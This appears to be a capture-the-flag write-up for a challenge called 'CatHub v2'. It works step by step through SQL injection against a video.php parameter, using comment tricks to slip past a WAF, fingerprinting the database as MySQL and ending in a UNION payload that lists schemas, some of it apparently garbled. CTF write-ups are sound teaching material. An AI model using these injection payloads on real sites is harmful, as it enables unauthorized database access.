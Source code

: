 # CatHub v2 solution step by step

## Step 1. DB syntax comparison

DB Type | LIMIT  | IF     | SLEEP  | OR     | AND    | *      | +      | #      | /**/   | --     |
--------|:------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|
MySQL   |   O    |   O    |   O    | O      |  O     |  O     |  O     | O      |   O    |  O     |
MSSQL   |  TOP   |   O    |  DELAY | O      |  O     |  O     | STRCAT | X      |   O    |  O    |
OracleDB|   ?    |   O    | dbms_lock.sleep(sec) | O      |  O     |  O     |  O     | X      |   X    |  O     |

## Step 2 trial and error to determine DB type

### White space banned (WAF)

`https://edu-ctf.csie.org:10159/video.php?vid=1%20SLEEP(3)` does not work (WAF protection for space characters) --> bad cat!, hence we need to use comment to separate commands. 

### Check function

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/OR/**/TOP/**/1` --> error!: TOP unusable --> OracleDB(X)

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/DELAY(25)` --> error!: DELAY unusable --> MSSQL(X)
### Check comments where usable ones are # -- /**/ 

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/OR/**/1=1/**/ljfberwhkfjhwbe`  --> error!: /**/ Usable --> OracleDB(X)

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/OR/**/1=1#ljfberwhkfjhwbe`  --> no error!: # Usable --> MSSQL(X), PorstgreSQL(X), SQLite(X)

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/OR/**/1=1--ljfberwhkfjhwbe`  --> no error!: -- Usable

### But is it MySQL or MariaDB?

* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/RELEASE_ALL_LOCKS()` --> bad cat!: WAF prevention and this function is MySQL only.
* `https://edu-ctf.csie.org:10159/video.php?vid=1/**/MEDIAN()` --> error!: MariaDB only function.

# Finally we can determine the DB that Kaibro uses is MySQL 

[Function Differences Between MariaDB 10.4 and MySQL 8.0](https://mariadb.com/kb/en/library/function-differences-between-mariadb-104-and-mysql-80/)

### SQL injection in MySQL

https://edu-ctf.csie.org:10159/video.php?vid=-1--union--select--1,schema_name,3--from--information_schemata.schemata

